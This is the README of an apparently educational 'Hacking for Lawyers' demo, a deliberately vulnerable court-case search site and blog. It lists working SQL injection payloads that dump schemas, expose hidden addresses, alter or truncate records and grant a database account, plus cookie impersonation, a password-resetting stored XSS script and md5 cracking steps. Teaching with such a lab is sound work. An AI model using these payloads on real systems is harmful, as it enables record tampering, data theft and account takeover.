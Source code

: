 # Hacking for Lawyers

## Running the Site
The website is in docker and uses the mattrayner lamp stack. Run the code below to launch the site 
```
docker-compose build
```
If you don't want to have a permanent mysql db outside the container then get rid of the second -v tag.
```
docker-compose up -d
```
There is a shell script in the app folder called create_sql.sh. This will drop the websitedata table if it exists and reinstall from a sql file in the mysql_tables folder in app.
```
docker exec -it hacking4lawyers_webapp_1 bash
cd app_backend
bash create_sql.sh 
```


# Topics Covered
## Case Search Page

### Case Search JavaScript Manipulation

Although the dropdown on the case search page only has the options of 5 or 10 results. 
You can use inspect on chrome to modify the value of the dropdown to be any number.

### Case Search SQL Injection Queries

```
Type this into the case number search box. It can also be typed into the url as a get parameter.
Step 0: Check to see if SQL Injection works at all.
fakecasenumber' OR '1' = '1

Step 1: Find the custom schema and return as the case number by continually adding 'test' as test until the columns match up.
fakecasenumber' UNION ALL SELECT GROUP_CONCAT(concat(schema_name)separator ';'),'test','test','test','test','test','test','test','test' FROM INFORMATION_SCHEMA.schemata WHERE '1'='1

Step 2: Get all the table names from that custom schema.
fakecasenumber' UNION ALL SELECT GROUP_CONCAT(concat(TABLE_NAME)separator ';'),'test','test','test','test','test','test','test','test' FROM INFORMATION_SCHEMA.TABLES WHERE table_schema ='websitedata

Step 3: Get all the column names from that table
fakecasenumber' UNION ALL SELECT GROUP_CONCAT(concat(COLUMN_NAME)separator ';'),'test','test','test','test','test','test','test','test' FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME ='casedata

Step 4: Now that we have all the column names for case data we can return different items. We notice the number of columns is also the number needed for the select statement so we assume they are using an *
We also notice a column that is not displayed anywhere called "Judge". We can replace case description with Judge to print out who the Judge will be.
fakecasenumber' UNION ALL SELECT Case_Number,Case_Type,Plaintiff_Name,Plaintiff_Address,Defendant_Name,Defendant_Address,Hearing_Date,CONCAT("Judge:", Judge) as Case_Description,'test' From casedata WHERE Case_Number = '12C934902

Step 5: We notice on domestic violence cases the plaintiff addres isn't shown. Using the same trick as before we can show the plaintiff address as case description
fakecasenumber' UNION ALL SELECT Case_Number,Case_Type,Plaintiff_Name,Plaintiff_Address,Defendant_Name,Defendant_Address,Hearing_Date,CONCAT("Plaintiffs Address: ",Plaintiff_Address) as Case_Description,Judge From casedata WHERE Case_Number = '12C934902

Step 6: We test to see if it will let us run multiple queries. If the permissions aren't set right we can update or delte out information.
//Resets the hearing date for a month earlier.
fakecasenumber'; UPDATE casedata SET Hearing_Date = '10/25/2019' WHERE Case_Number = '12C934910

Step 7: We can update the defendants name to something else
//Updates the defendants name in a criminal case
fakecasenumber'; UPDATE casedata SET Defendant_Name = 'John Smith' WHERE Case_Number = '12C934910

Step 8: We can wipe out all the data using truncate.
//Please don't do during a live demo!
fakecasenumber'; TRUNCATE casedata; SELECT * FROM casedata WHERE Case_Number = '12C9349010

Step 9: Finally we can create a new user so we can simply login ourselves to more directly control the mysql server.
fakecasenumber'; GRANT ALL PRIVILEGES ON *.* TO 'hackerman'@'localhost' IDENTIFIED BY 'password
```

## Blog Post Site

### Cookie Manipulation
When the user logs in a cookie is set with the users username. This can be modified to be any user, thus becoming that user.

### SQL Injection

This can be done through modifying the username in the cookie

Test if sql injection works
```
mstubenberg' OR '1' = '1
```
Replace password for user
```
fakeuser' UNION ALL SELECT "test" as test,password FROM users WHERE username = 'attorney1
```
Get all the users information using ID
```
fakeuser' UNION ALL SELECT username,password FROM users WHERE ID = '2
```

### Bypass JavaScript input validation

On the user registration page, when the user clicks "Create," an error
message will appear if the username field is empty, if the password is
empty, or if the e-mail address is not a valid e-mail address.

If the user uses "Inspect" to look at the "Create" button, he or she
will see that there is an "event" attached to the button, and the
button has the id `create`.  The user can also see from the page
source that the site uses JQuery.

To get around client-side input validation, enter the following into
the JavaScript Console.

```
$("#create").off();
```

Then click the "Create" button.

### JavaScript Injection

You can add javascript directly into the text box for a post which is
then executed by the users browser.

Testing if it's possible
```
<script>
console.log("It worked!");
</script>
```

Script to change the password of the user and then log them out unless they are the user "hackerman"
Note: This one should be dropped as an example because it then prohibits any of the audience from playing with the site.
```
    <script>
       setTimeout(function(){
           console.log("It worked");
           if($("#accountinfousername").text() != "hackerman"){
                if($("#logoutbutton").length > 0 && $("#resetpasswordsuccess").length == 0){
                    $("#resetpassword").val("pa$$word");
                    $("#resetpasswordbutton").click();
                }else if($("#resetpasswordsuccess").length > 0){
                    $("#logoutbutton").click();
                }else{
                    console.log("Waiting for user to login");
                }
            }

        },1000); 
    </script>
```

## Cracking Passwords 
This is all on the pass_cracker folder.

### Encrypting passwords

`passwords.txt` has a list of passwords that people might use. (well, hopefully not, because they're extra weak for demonstration purposes)

Use `hash.sh` to encrypt passwords with the (very insecure, so only for demo purposes) md5 algorithm. 

```./hash.sh```

The new `secrets.md5` file is the hashed version of the passwords. 

### Decrypting them

Run `./dehash.sh`. 

This compares the hashes of the words in `wordlist.txt` to the hashes in `secrets.md5`. 

If `hashcat` can find a word in `wordlist.txt` with a hash that matches one in `secrets.md5`, it knows that hash came from the word in the wordlist.



## To Do:
1. I think the blog site should have additional options if the user is "admin". Then using the cookie trick you can log in as admin and delete posts.
2. I think real world examples of each of these would be useful. Show an example then show a news clip of a company that actually had this vulnerability.
3. I'd like to demonstrate a man in the middle attack. Maybe brining our own wireless network? 
4. Showing a password cracker live in the background somehow that we start at the beginning and check how many we've cracked at the end would be cool.
